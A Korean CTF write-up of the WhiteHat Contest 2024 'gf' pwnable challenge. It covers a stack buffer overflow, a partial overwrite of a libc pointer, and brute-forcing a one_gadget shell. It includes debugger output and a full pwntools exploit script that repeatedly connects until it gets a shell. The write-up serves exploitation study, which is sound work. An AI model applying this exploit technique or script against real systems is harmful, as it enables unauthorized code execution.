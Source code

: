 ```yaml
---
title: WhiteHat Contest 2024 Quals - gf
date: 2024-11-19 00:00:00 +0900
categories: [CTF, Pwnable]
tags: [ctf, pwnable, rop, partial overwrite, one gadget, brute force]
---
```


## 0x00. Introduction
``` bash
[*] '/home/user/gf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
가젯 이리 저리 조합하다가 매몰되어버린 문제.

종료 20분 전에 알아버렸다...

## 0x01. Vulnerability
``` c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char dest[16]; // [rsp+10h] [rbp-10h] BYREF

  setbuf_4011A5();
  read(0, &unk_404060, 0xBCuLL);
  memcpy(dest, &unk_404060, 0xBBuLL);
  return 1LL;
}
```
16바이트 `dest`에 0xbc만큼 입력을 받는 단순한 BOF 취약점이 발생한다.

## 0x02. Exploit
출력 함수는 커녕 ROP를 하기 위한 가젯이 하나도 없다.

그러다가 메모리를 보고 힌트를 얻었다.
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x0000000000000000      0x0000000000000000
0x7fffffffed10: 0x0000000000000000      0x00007ffff7000000
```
`read()`의 마지막 부분인 `dest + 0xb8` 근처를 보면 매우 수상하게 libc 주소의 일부가 있다.

하위 3바이트가 `0x00`으로 되어있는데, 딱 이 부분까지 쓸 수 있다. 
``` bash
gef➤  x/4gx $rsp + 0xb0
0x7fffffffed00: 0x4141414141414141      0x4141414141414141
0x7fffffffed10: 0x4141414141414141      0x00007ffff7434241
```
따라서 libc leak 없이 이 부분을 이용해서 예상되는 one shot 가젯 주소를 만들어두고 ASLR에 의해 확률적으로 해당 주소에 진짜 one shot 가젯이 로드되길 기대하는 방법이 있다.

`main()`에서 return을 할 때의 레지스터 값들은 다음과 같다.
``` bash
$rax   : 0x1
$rbx   : 0x0
$rcx   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdx   : 0xbb
$rsp   : 0x00007fffffffec98  →  0x0000000000000000
$rbp   : 0xa
$rsi   : 0x0000000000404060  →  "AAAAAAAAAAAAAAAA\n"
$rdi   : 0x00007fffffffec80  →  "AAAAAAAAAAAAAAAA\n"
$rip   : 0x0000000000401281  →   ret
$r8    : 0x00007ffff7fabf10  →  0x0000000000000004
$r9    : 0x00007ffff7fc9040  →  0xe5894855fa1e0ff3
$r10   : 0x00007ffff7fc3908  →  0x000d00120000000e
$r11   : 0x246
$r12   : 0x00007fffffffeda8  →  0x00007fffffffef5c  →  0x3d48544150006667 ("gf"?)
$r13   : 0x000000000040122a  →   endbr64
$r14   : 0x0000000000403dc0  →  0x0000000000401160  →   endbr64
$r15   : 0x00007ffff7ffd040  →  0x00007ffff7ffe2e0  →  0x0000000000000000
```
이 상태에서 one shot 가젯 조건을 맞춰줘야하는데 가젯만 몇 시간을 봤더니 바로 방법이 떠올랐다.
``` bash
➜  one_gadget libc.so.6
...
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
...
```
One shot 가젯 중 위와 같이 `rsi`, `rdx`에 조건이 걸려있는 가젯이 있었고 바이너리에 있는 가젯중 다음과 같은 것들이 있다.
``` bash
➜  objdump -M intel -d gf
...
# shift_rsi_ret gadget
  40112c:       48 89 f0                mov    rax,rsi
  40112f:       48 c1 ee 3f             shr    rsi,0x3f
  401133:       48 c1 f8 03             sar    rax,0x3
  401137:       48 01 c6                add    rsi,rax
  40113a:       48 d1 fe                sar    rsi,1
  40113d:       74 11                   je     401150 <setvbuf@plt+0xb0>
  40113f:       b8 00 00 00 00          mov    eax,0x0
  401144:       48 85 c0                test   rax,rax
  401147:       74 07                   je     401150 <setvbuf@plt+0xb0>
  401149:       bf 10 40 40 00          mov    edi,0x404010
  40114e:       ff e0                   jmp    rax
  401150:       c3                      ret
...
# pop_rsi_pop_rdx_push_rsi_ret gadget
  40119e:       5e                      pop    rsi
  40119f:       5a                      pop    rdx
  4011a0:       56                      push   rsi
  4011a1:       c3                      ret
```
우선 `rdx`는 `pop_rsi_pop_rdx_push_rsi_ret` 가젯을 통해 컨트롤이 가능하고 어떤 의도인지는 모르겠으나 `shift_rsi_ret` 가젯을 통해 `rsi`를 0.5바이트씩 right shift 할 수 있다.

`rsi`에는 `0x404060`가 저장되어있으므로 `shift_rsi_ret` 가젯을 6번 호출하면 `rsi`를 `0`으로 만들 수 있다.

추가로 `rbp-0x78`가 writable 해야하는 조건이 있는데 대충 Data 영역의 중간인 `0x404800`으로 설정해주었다.

확률을 계산해보면 `0x7ffff7XXXc88`가 실제로 one shot 가젯의 주소여야하므로 1.5바이트, 즉 1/4096 확률로 exploit이 성공한다.

그런데 예선이 끝나고 다른 분의 exploit을 보니 100% exploit에 성공할 수 있는 방법이 있었다.

몰랐던 내용이기도 하고 일반적으로 사용할 수 있을 것 같아서 따로 포스팅하겠다.

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "gf"
LIBRARY = "libc.so.6"
CONTAINER = "5189692c7e21"
bp = {
    'main_ret' : 0x401281,
}

gs = f'''
b *{bp["main_ret"]}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        # s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    shift_rsi_ret = 0x40112c
    pop_rsi_pop_rdx_push_rsi_ret = 0x40119e

    payload = b"A" * 0x10
    payload += p64(0x404800)
    payload += p64(pop_rsi_pop_rdx_push_rsi_ret)
    payload += p64(shift_rsi_ret)
    payload += p64(0)
    payload += p64(shift_rsi_ret) * 5
    payload += p64(bp['main_ret']) * ((0xb8 - len(payload)) // 8)
    payload += b"\x88\xac\x4b"      # 0x754c18 4b ac 88

    while 1:
        s = remote(server, port)
        s.sendline(payload)
        try:
            sleep(0.2)
            s.sendline(b"id")
            r = s.recvline(timeout=1)
            if b"(pwn)" in r:
                log.success(f"id : {r}")
                s.interactive()
                s.close()
            else:
                log.info(r)
        except Exception as e:
            log.failure(e)
            s.close()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```